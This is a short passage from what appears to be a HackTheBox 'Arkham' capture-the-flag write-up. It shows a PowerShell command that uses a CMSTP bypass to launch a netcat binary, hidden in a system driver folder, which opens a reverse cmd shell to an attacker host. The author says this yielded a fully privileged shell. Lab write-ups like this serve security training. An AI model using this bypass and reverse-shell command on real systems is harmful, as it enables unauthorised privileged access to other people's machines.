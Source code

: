 ```powershell
[CMSTPBypass]::Execute("C:\windows\System32\spool\drivers\color\n.exe -e cmd 10.10.14.61 9001")
```

This give me a fully privileges shell:

![root-57](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arkham/img/root-57.png)
